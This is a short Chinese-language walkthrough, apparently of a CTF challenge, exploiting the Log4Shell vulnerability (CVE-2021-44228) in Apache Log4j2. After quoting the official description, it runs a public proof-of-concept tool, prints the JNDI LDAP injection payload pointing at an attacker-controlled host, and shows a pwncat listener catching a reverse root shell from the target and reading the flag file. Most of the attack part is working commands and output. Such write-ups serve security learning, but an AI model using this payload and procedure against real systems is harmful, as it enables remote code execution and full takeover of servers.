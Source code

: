 # CVE-2021-44228

:::info

Tags

- Apache Log4j2 lookup JNDI 注入漏洞

官方数据库记录

> Apache Log4j2 2.0-beta9 到 2.15.0（不包括安全版本 2.12.2、2.12.3 和 2.3.1）配置、日志消息和参数中使用的 JNDI 功能不能防止攻击者控制的 LDAP 和其他 JNDI 相关端点。 当启用消息查找替换时，可以控制日志消息或日志消息参数的攻击者可以执行从 LDAP 服务器加载的任意代码。 从 log4j 2.15.0 开始，此行为已默认禁用。 从版本 2.16.0（以及 2.12.2、2.12.3 和 2.3.1）开始，此功能已被完全删除。 请注意，此漏洞特定于 log4j-core，不会影响 log4net、log4cxx 或其他 Apache 日志服务项目。

:::

直接使用 [kozmer/log4j-shell-poc: A Proof-Of-Concept for the CVE-2021-44228 vulnerability.](https://github.com/kozmer/log4j-shell-poc) 进行攻击

```shell
root@jmt-projekt:~/log4j-shell-poc# python3 poc.py --userip 139.*.*.* --webport 8080 --lport 9999

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://139.*.*.*:1389/a}
[+] Starting Webserver on port 8080 http://0.0.0.0:8080

Listening on 0.0.0.0:1389
```

然后建立一个监听器，将 `${jndi:ldap://139.*.*.*:1389/a}` 传输到靶机上执行，即可收到回连的 shell

```shell
root@jmt-projekt:~# pwncat-cs -lp 9999
[16:56:09] Welcome to pwncat 🐈!                                                                                                                                                                 __main__.py:164
[16:56:24] received connection from 39.106.20.178:38887                                                                                                                                               bind.py:84
[16:56:26] 0.0.0.0:9999: upgrading from /bin/dash to /bin/bash                                                                                                                                    manager.py:957
[16:56:27] 39.106.20.178:38887: registered new host w/ db                                                                                                                                         manager.py:957
(local) pwncat$ back
(remote) root@engine-2:/usr/local/tomcat# whoami
root
(remote) root@engine-2:/# cat /flag
flag{d23fe301-6f8f-4210-831a-96352d07d4c1}
```
